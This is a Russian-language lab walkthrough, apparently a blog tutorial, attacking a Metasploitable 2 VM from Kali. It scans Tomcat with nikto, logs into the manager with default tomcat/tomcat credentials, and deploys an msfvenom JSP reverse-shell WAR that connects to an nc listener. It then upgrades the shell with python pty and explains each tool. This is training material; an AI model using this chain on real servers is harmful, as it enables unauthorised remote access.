










Предполагается что все действия выполняются на виртуальных машинах VirtualBox.
Начинаем атаку на удаленную машину Metasploitable 2.
Необходимо определить IP с машиной Metasploitable 2. Для этого сначала определим наш IP и маску подсети, для этого дадим команду в терминале Kali:
ifconfig
В результатах вывода команды выше, можно увидеть такую строку:
inet 10.0.2.4 netmask 255.255.255.0
То есть наш IP 10.0.2.4 а диапазон IP адресов нашей сети 10.0.2.0/24 (это обяснялось ранее в предыдущих статьях).
Для обнаружения других компьютеров в сети и в том числе нашей удаленной машины Metasploitable 2, дадим команду в терминале Kali:
sudo netdiscover -r 10.0.2.0/24
В выводе команды:
10.0.2.2 08:00:27:3a:17:ed 1 60 PCS Systemtechnik GmbH 10.0.2.3 08:00:27:f1:18:5a 1 60 PCS Systemtechnik GmbH
10.0.2.2 - это виртуальный роутер, который управляет нашей сетью.
10.0.2.3 - это наша машина (по логике) с Metasploitable 2.
Проверим связь между нашей Kali и удаленной ВМ Metasploitable 2, дадим команду:
ping 10.0.2.3
Если сеть в VirtualBox настроена правильно, видим пинг идет, связь есть.
На Kali выполняем команду в терминале:
nikto -h 10.0.2.3:8180

Мы нашли логин/пароль - tomcat/tomcat.
Используя msfvenom создаем полезную нагрузку webshell (команда в терминале Kali):
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.0.2.4 lport=4444 -f war > webshell1.war
После этого в домашней папке на Kali появиться файл:
webshell1.war

Следующую команду выполняем в терминале Kali:
nc -lvnp 4444
где:
-l — режим прослушивания (listen)
-v — подробный вывод
-n — не выполнять DNS-резолвинг
-p 4444 — слушать порт 4444

Далее в Kali открываем браузер, вводим адрес:
http://10.0.2.3:8180/manager/html
На запрос логин/пароль вводим tomcat/tomcat и нажимаем Sign In:

После входа листаем вниз до секции:
WAR file to deploy
Жмем кнопку Browse, выбираем у нас на диске файл webshell1.war, жмем Deploy:


Следующий шаг в браузере Kali перейти по адресу (или в панели управления нажать /webshell1):
http://10.0.2.3:8180/webshell1/

Далее сворачиваем браузер, что бы снова было видно окно терминала Kali, и видим что подключение есть и можно давать команды:

И тут же в этом окне терминала даем команду:
python -c 'import pty; pty.spawn("/bin/bash")'

Теперь у нас есть командная строка Metasploitable 2, выполнена команда whoami:

В командной строке выполним еще команду ifconfig и видим IP 10.0.2.3 что указывает на Metasploitable 2:

Для выхода из командной обочки Metasploitable 2 следует нажать сочетание клавиш Ctr+C.
Это руководство описывает создание и загрузку веб-оболочки (webshell) с помощью msfvenom. Это относится к созданию и использованию инструмента для получения удаленного доступа к системе.
Что такое msfvenom
msfvenom — это утилита из состава Metasploit Framework, которая умеет автоматически генерировать различные типы полезных нагрузок (payload) в разных форматах.
Например, она может создавать файлы для разных платформ и технологий:
Windows (EXE);
Linux (ELF);
Java (WAR, JAR);
Android (APK);
PHP, ASP, JSP и другие.
К примеру злоумышленник при помощи msfvenom создает EXE файл, отправляет его по электронной почте жертве, на компьютере жертвы этот EXE запускается и устанавливает связь с компьютером злоумышленника. Но антивирус может обнаружть такой EXE.
Идея в том, что вместо того чтобы вручную писать код на Java, утилита автоматически генерирует готовое приложение, содержащее выбранную полезную нагрузку.
Почему в примере используется WAR
Tomcat умеет развертывать приложения в формате WAR. WAR (Web Application Archive) — это ZIP-архив специальной структуры, предназначенный для Java-веб-приложений.
Если переименовать файл:
webshell1.war
в
webshell1.zip
то его можно открыть обычным архиватором (7-Zip, WinRAR и т.д.).
Поэтому в учебном примере вместо самостоятельного написания index.jsp предлагается сгенерировать готовое Java-приложение в формате WAR, которое Tomcat может установить как обычное веб-приложение.
Tomcat не знает, каким образом был создан WAR — вручную разработчиком или автоматически какой-либо утилитой.
В данном контексте nc (Netcat) используется как часть цепочки эксплуатации для ожидания входящего соединения после запуска полезной нагрузки.
Что такое Netcat
nc (Netcat) — это универсальный инструмент для работы с TCP и UDP.
Он может:
устанавливать TCP-соединения;
принимать входящие TCP-соединения;
передавать данные между программами;
использоваться для диагностики сетевых сервисов.
Как это выглядит концептуально
Если одна программа хочет подключиться к другой, схема такая:
Программа A
│
TCP-соединение
│
▼
Netcat
│
▼
Программа B
Netcat сам по себе не является эксплойтом и не выполняет никакого кода. Он просто передает данные по сети.
Зачем нужен nc?
Когда JSP внутри webshell1.war выполнится на сервере, она сама инициирует TCP-подключение к твоей Kali-машине. nc просто принимает это соединение.
Эта команда:
python -c 'import pty; pty.spawn("/bin/bash")'
не получает первоначальный доступ. Она улучшает уже полученную shell.
Что происходит до этого
После успешного выполнения JSP и обратного подключения мы обычно получаем простую оболочку, например:
$ whoami
tomcat
$ pwd
/var/lib/tomcat5
Такая оболочка называется dumb shell (неполноценная shell). У нее есть ограничения:
не работают стрелки ↑ ↓;
не работает автодополнение Tab;
многие интерактивные программы (su, vi, nano, top) работают некорректно;
нет полноценного терминала (TTY).
Что делает команда
python -c 'import pty; pty.spawn("/bin/bash")'
Разберем по частям:
python -c — выполнить код Python прямо из командной строки.
import pty — импортировать модуль pty (pseudo terminal).
pty.spawn("/bin/bash") — запустить /bin/bash, подключив его к псевдотерминалу (PTY).
В результате вместо простой оболочки мы получаем полноценный bash, который ведет себя гораздо ближе к обычному терминалу.
Когда ее выполнять?
Ее вводят уже внутри полученной оболочки.
Например:
listening on [any] 4444 ...
connect to [192.168.79.173] from 10.0.2.3 49352
$ python -c 'import pty; pty.spawn("/bin/bash")'
tomcat@metasploitable:/var/lib/tomcat5$
Обратите внимание, что приглашение командной строки обычно становится более информативным (например, tomcat@metasploitable:...$), что является признаком запуска bash через PTY.